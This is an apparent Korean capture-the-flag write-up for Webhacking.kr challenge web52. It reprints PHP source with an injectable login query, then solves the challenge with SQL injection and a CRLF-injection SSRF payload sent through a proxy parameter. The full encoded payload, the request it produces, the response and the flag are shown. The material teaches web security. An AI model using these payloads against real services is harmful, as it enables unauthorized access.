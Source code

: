 ```yaml
---
title : "Webhacking.kr - web52"
categories : [Wargame, Webhacking.kr]
tags : [SSRF, Server Side Request Forgery, CRLF Injection, HTTP Header Injection]
---
```


## web52
<hr style="borde-top: 1px solid;"><br>

```
Your mission is to access admin page
guest account is guest / guest
here is proxy just for fun
```

<br>

```php
// admin page
<?php
include "config.php";
if($_GET['view_source']) view_source();
if($_GET['logout'] == 1){
  $_SESSION['login']="";
  exit("<script>location.href='./';</script>");
}
if($_SESSION['login']){
  echo "hi {$_SESSION['login']}<br>";
  if($_SESSION['login'] == "admin"){
    if(preg_match("/^172\.17\.0\./",$_SERVER['REMOTE_ADDR'])) echo $flag;
    else echo "Only access from virtual IP address";
  }
  else echo "You are not admin";
  echo "<br><a href=./?logout=1>[logout]</a>";
  exit;
}
if(!$_SESSION['login']){
  if(preg_match("/logout=1/",$_SERVER['HTTP_REFERER'])){
    header('WWW-Authenticate: Basic realm="Protected Area"');
    header('HTTP/1.0 401 Unauthorized');
  }
  if($_SERVER['PHP_AUTH_USER']){
    $id = $_SERVER['PHP_AUTH_USER'];
    $pw = $_SERVER['PHP_AUTH_PW'];
    $pw = md5($pw);
    $db = dbconnect();
    $query = "select id from member where id='{$id}' and pw='{$pw}'";
    $result = mysqli_fetch_array(mysqli_query($db,$query));
    if($result['id']){
      $_SESSION['login'] = $result['id'];
      exit("<script>location.href='./';</script>");
    }
  }
  if(!$_SESSION['login']){
    header('WWW-Authenticate: Basic realm="Protected Area"');
    header('HTTP/1.0 401 Unauthorized');
    echo "Login Fail";
  }
}
?>
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="borde-top: 1px solid;"><br>

우선 로그인을 할 때 쿼리를 보면 sql injection을 할 수 있으므로 admin으로 로그인 하는 건 가능하다.

여기서 이제 클라이언트 ip 주소를 ```172.17.0.x```로 어떻게 바꾸는가가 문제였다. 보면 내부 IP 대역이다.

문제를 보면 proxy.php가 있다. 페이지를 보면 HTTP 요청과 응답을 보여준다.

<br>

우선 admin으로 로그인하여 세션을 만들어 둔다.

그 다음 proxy.php에서 파라미터로 page 값이 있는데 여기에 /admin이라고 입력하면 301 응답코드가 온다.

```page=/admin/```으로 하면 인증을 하지 않았으므로 ```Unauthorized```가 뜬다.

여기서 취약점은 우리가 Request 값을 조작할 수 있다는 점이다. 

<br>

헤더는 CRLF로 끝나게 되어 있다. 

따라서 CRLF로 값을 주면서 Request 헤더에 인증 헤더를 넣어주면 admin임을 인증할 수 있다.

<br>

CR의 ASCII 값은 ```%0d```, LF의 ASCII 값은 ```%0a```이다. 

<br>

payload
: ```page=/admin/%20HTTP/1.1%0d%0aAuthorization:%20Basic%20YWRtaW4nIC0tIDo=%0d%0aHost:%20webhacking.kr:10008%0d%0aCookie:%20PHPSESSID={COOKIE}%0d%0aConnection:%20close%0d%0a%0d%0aGET%20/admin/```

<br>

위와 같이 payload를 보내면 Request는 아래와 같이 나오게 되고 Response에 FLAG가 출력이 된다.

<br>

```
page: /admin/ HTTP/1.1
Authorization: Basic YWRtaW4nIC0tIDo=
Host: webhacking.kr:10008
Cookie: PHPSESSID={COOKIE}
Connection: close

GET /admin/ HTTP/1.1
Host: webhacking.kr:10008
Connection: Close
```

<br>

```
HTTP/1.1 200 OK
Date: Wed, 16 Mar 2022 07:10:10 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 93
Connection: close
Content-Type: text/html; charset=UTF-8

hi admin
FLAG{Server_Side_Request_Forgery_with_proxy!}
[logout]
```

<br>

+ Flag : ```FLAG{Server_Side_Request_Forgery_with_proxy!}```

<br><br>
<hr style="border: 2px solid;">
<br><br>
